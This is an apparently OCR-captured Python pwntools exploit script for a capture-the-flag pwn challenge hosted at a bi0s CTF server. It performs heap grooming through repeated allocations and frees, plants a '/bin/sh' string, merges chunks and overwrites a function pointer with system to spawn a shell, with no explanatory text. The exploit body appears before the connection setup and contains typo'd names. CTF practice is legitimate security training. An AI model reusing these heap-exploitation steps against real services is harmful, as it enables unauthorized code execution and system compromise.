 ```python

	kill(3)

	# add(0x20, '1' * 0x20) # 4 
	# add(0x20, '2' * 0x20) # 5 


	for i in range (61):
		add(0x40, 'a'*0x40)

	# 0xa7e0 0xa800 
	add(0x20, '/bin/sh\x00') # 65 
	binsh = heap + 0xa800 

	# 0x820
	add(0x20, '2' * 0x20) # 66 
	# add(0x20, '3' * 0x20) # 67 
	payload = flat(0x00000000384adf93, bin, 0x0000003200000001, 0x0003ffffffffffff)
	# paylaod = 'a' * 0x20 
	add(0x20, payload) # 67 
	add(0x20, '4' * 0x20) # 68 
	add(0x20, '5' * 0x20) # 69
	add(0x20, '6' * 0x20) # 70

	kill(66)
	kill(67)
	kill(68)
	kill(69)

	add(0x60, 'z' * 0x60) # 71

	add(0x20, '1' * 0x20) # 72 index2
	merga(70, 72)

	system = PIE + 0x000000000001170
	paylaod = flat(system , binsh)
	add(0x50, paylaod) # p_func

	sl('4')




local = int(sys.argv[1])
slog = {'name' : 111}

if local:
    cn = process('./bin')
else:
    cn = remote("pwn.challenge.bi0s.in", 1230)

re  = lambda m, t : cn.recv(numb=m, timeout=t)
recv= lambda      : cn.recv()
ru  = lambda x    : cn.recvuntil(x)
rl  = lambda      : cn.recvline()
sd  = lambda x    : cn.send(x)
sl  = lambda x    : cn.sendline(x)
ia  = lambda      : cn.interactive()
sla = lambda a, b : cn.sendlineafter(a, b)
sa  = lambda a, b : cn.sendafter(a, b)
sll = lambda x    : cn.sendlineafter(':', x)
# after a, send b;

```